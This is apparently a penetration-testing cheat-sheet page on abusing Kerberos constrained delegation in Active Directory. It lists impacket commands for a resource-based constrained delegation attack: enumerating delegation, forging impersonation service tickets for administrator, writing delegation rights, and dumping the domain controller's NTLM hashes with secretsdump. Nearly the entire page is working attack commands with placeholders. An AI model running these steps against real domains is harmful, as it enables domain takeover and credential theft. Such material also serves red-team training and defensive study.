 ```yaml
---
title: "Constrained Delegation"
date: 2024-8-2
tags: ["constrained delegation", "active driectory", "ad", "Windows", "impacket", "rbcd"]
---
```


### Abuse #1: RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Find delegation

```console
# Check delegation
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC> -hashes :<HASH> -k
```

#### 2. Get a service ticket

```console
impacket-getST -spn <SERVICE>/<TARGET_DOMAIN> -impersonate administrator '<DOMAIN>/<USER>' -hashes :<HASH> -self
```

```console
# Check forwardable flag
describeTicket.py <TICKET_1>.ccache
```

#### 3. RBCD Attack

```console
# Add delegation
impacket-rbcd '<DOMAIN>/<USER>' -hashes :<HASH> -k -delegate-from <USER> -delegate-to <TARGET_1> -action write -dc-ip <DC> -use-ldaps
```

```console
# Check
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC> -hashes :<HASH> -k
```

#### 4. Get a service ticket

```console
# Impersonate
impacket-getST '<DOMAIN>/<USER>:<PASSWORD>' -spn <SERVICE>/<TARGET_DOMAIN> -impersonate <TARGET_2>
```

```console
# Check forwardable flag
describeTicket.py <TICKET_2>.ccache
```

#### 5. Impersonate

```console
impacket-getST -spn <SERVICE>/<TARGET_DOMAIN> -impersonate <TARGET_2> '<DOMAIN>/<TARGET_1>' -hashes :<HASH> -additional-ticket <TICKET_2>.ccache
```

#### 4. Secrets Dump

```console
export KRB5CCNAME='<TICKET_2>.ccache'
```

```console
impacket-secretsdump -no-pass -k <DC> -just-dc-ntlm
```

{{< /tabcontent >}}

